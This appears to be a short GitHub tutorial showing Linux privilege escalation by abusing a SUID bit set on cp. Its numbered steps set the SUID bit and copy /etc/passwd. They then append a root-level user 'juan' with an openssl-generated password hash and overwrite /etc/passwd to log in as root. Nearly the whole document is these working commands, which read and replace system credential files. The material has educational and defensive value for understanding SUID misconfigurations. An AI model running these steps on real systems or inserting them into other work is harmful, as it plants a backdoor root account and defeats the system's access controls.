




# Privilege escalation with cp using the SUID bit
## Premise
Let's suppose a developer "*maddev*", as an excuse he needs to update his application, and to speed up the matter he asks to enable the SUID in the ```cp``` command

## Steps

1. We award the SUID to cp
```
sudo chmod u+s $(which cp)
```


2. The next thing as a maddev user will be to duplicate the ```/etc/passwd``` file for us
```
cat /etc/passwd > ./passwd
```
> We use cat because cp lets us copy, but not edit, so first we extract the content with cat and bring it our own ```passwd```  



3. We add to the file a new user "*juan*" with root profile, taking advantage that openssl is installed in all linux distros
```
echo "juan:$(openssl passwd -1 -salt fTTYcf34 juan123):0:0:root:/root:/bin/bash" >> passwd
```
> we do not complicate ourselves with the salt and we make it up



4. We replace with cp the original passwd by ours, we log in as juan and check if we are already root.
```
cp passwd /etc/passwd
```

